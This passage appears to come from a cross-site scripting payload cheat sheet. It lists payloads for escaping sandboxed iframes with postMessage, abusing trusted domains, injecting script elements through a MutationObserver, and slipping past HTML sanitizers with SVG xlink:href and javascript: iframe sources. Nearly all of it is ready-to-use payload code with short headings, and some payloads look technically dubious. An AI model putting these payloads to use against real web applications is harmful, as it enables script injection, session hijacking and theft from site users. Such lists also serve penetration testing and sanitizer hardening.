 Some web applications use sandbox iframes or other sandboxing techniques to contain potentially dangerous scripts.

#### Bypassing Sandbox with PostMessage

`<iframe sandbox="allow-scripts" srcdoc="<script>window.parent.postMessage('XSS','*')</script>"></iframe>` 

#### Exploiting Trusted Domains

`<iframe src="https://trusted-domain.com" onload="this.contentWindow.postMessage('<script>alert(1)</script>', '*')"></iframe>` 

### Using Mutation Observers

Mutation Observers can be used to detect and inject scripts when the DOM changes.

#### Example Payload

`var observer = new MutationObserver(function(mutations) {
  mutations.forEach(function(mutation) {
    if (mutation.addedNodes.length) {
      var script = document.createElement('script');
      script.innerHTML = 'alert("XSS")';
      document.body.appendChild(script);
    }
  });
});
observer.observe(document, { childList: true, subtree: true });
document.body.appendChild(document.createElement('div'));` 

### Bypassing HTML Sanitizers

Many applications use libraries to sanitize HTML input, but these can often be bypassed with creative payloads.

#### Using Angle Brackets

`<svg><a xlink:href="javascript:alert(1)">&lt;click&gt;</a></svg>` 

#### Exploiting Weak Sanitizers

`<div><iframe src="javascript:alert('XSS')"></iframe></div>`